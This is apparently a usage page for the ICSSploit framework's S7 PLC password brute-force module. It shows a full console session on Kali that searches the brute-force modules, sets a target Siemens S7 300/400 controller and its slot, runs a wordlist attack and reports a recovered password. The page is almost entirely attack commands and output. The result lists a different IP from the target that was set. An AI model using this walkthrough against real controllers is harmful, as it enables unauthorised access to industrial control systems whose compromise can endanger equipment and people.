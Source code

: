 # S7 Bruteforece

# 使用 S7 bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 14
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search bruteforce
    creds/ftp_bruteforce
    creds/http_basic_bruteforce
    creds/http_digest_bruteforce
    creds/http_form_bruteforce
    creds/s7_bruteforce
    creds/snmp_bruteforce
    creds/ssh_bruteforce
    creds/telnet_bruteforce
    isf > use creds/s7_bruteforce

    
# 设置目标参数
    isf (S7 300/400 PLC Password Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name                Current settings                                                                                Description
       ----                ----------------                                                                                -----------
       slot                2                                                                                               CPU slot number.
       threads             3                                                                                               Number of threads
       stop_on_success     yes                                                                                             Stop on first valid community string
       verbose             0                                                                                               Verbose scapy output. 1: display, 0: hide
       password            file:///root/Desktop/temp/isf/icssploit/wordlists/passwords.txt                                 password string or file with community strings (file://)
       rack                0                                                                                               CPU rack number.

    isf (S7 300/400 PLC Password Bruteforce) > set target 192.168.1.10
    [+] {'target': '192.168.1.10'}
    # 设置目标PLC 槽位号
    isf (S7 300/400 PLC Password Bruteforce) > set slot 3
    [+] {'slot': '3'}

# 执行暴力破解
    isf (S7 300/400 PLC Password Bruteforce) > run
    [*] Running module...
    [*] Elapsed time:  11.8677530289 seconds
    [+] Credentials found!
    
       Target             Port     password
       ------             ----     --------
       192.168.70.210     102      password
    isf (S7 300/400 PLC Password Bruteforce) >
